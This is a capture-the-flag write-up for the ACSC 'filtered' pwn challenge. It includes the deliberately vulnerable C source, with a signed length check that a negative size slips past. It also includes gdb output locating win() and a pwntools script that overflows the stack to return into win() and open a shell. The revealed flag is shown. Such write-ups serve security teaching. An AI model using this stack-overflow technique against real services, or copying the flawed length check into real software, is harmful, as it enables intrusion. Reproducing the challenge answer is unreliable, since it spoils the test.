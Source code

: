 # filtered (pwn-100)

## Summary

We are given a binary file and its source code. Our mission is to connect to server, exploit it and get the flag.

```
nc filtered.chal.acsc.asia 9001
```

```c
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

/* Call this function! */
void win(void) {
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
  exit(0);
}

/* Print `msg` */
void print(const char *msg) {
  write(1, msg, strlen(msg));
}

/* Print `msg` and read `size` bytes into `buf` */
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}

/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}

/* Entry point! */
int main() {
  int length;
  char buf[0x100];

  /* Read and check length */
  length = readint("Size: ");
  if (length > 0x100) {
    print("Buffer overflow detected!\n");
    exit(1);
  }

  /* Read data */
  readline("Data: ", buf, length);
  print("Bye!\n");

  return 0;
}
```

Quickly peeking the source code, it turned out that this is a bof challenge.

## Solution

```c
/* Read and check length */
length = readint("Size: ");
if (length > 0x100) {
	print("Buffer overflow detected!\n");
	exit(1);
}
```

It's a bit tricky here. To bypass this snippet, we need to ensure that `length <= 0x100`. I try some random value like `1111111111111111` to make it negative (integer overflow).

Then, fire up our `gdb` and find the address of `win()` function.

```c
pwndbg> i func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  write@plt
0x00000000004010a0  strlen@plt
0x00000000004010b0  read@plt
0x00000000004010c0  execve@plt
0x00000000004010d0  atoi@plt
0x00000000004010e0  exit@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  win 	<= our address is right here
0x0000000000401217  print
0x000000000040124a  readline
0x00000000004012e5  readint
0x000000000040131b  main
0x0000000000401390  __libc_csu_init
0x0000000000401400  __libc_csu_fini
0x0000000000401408  _fini
```

There is no `PIE` in this challenge so it's over:

```python
from pwn import *

r = remote('filtered.chal.acsc.asia', 9001)

print(r.recvline())
print(r.recv())

payload = b'1'*0x10 + b'a'*280 + p64(0x4011d6)
r.sendline(payload)

print(r.recv())
r.interactive()
```

Exploit:

```
[+] Opening connection to filtered.chal.acsc.asia on port 9001: Done
b'== proof-of-work: disabled ==\n'
b'Size: '
b'Data: '
[*] Switching to interactive mode
Bye!
$ ls
filtered
flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
```

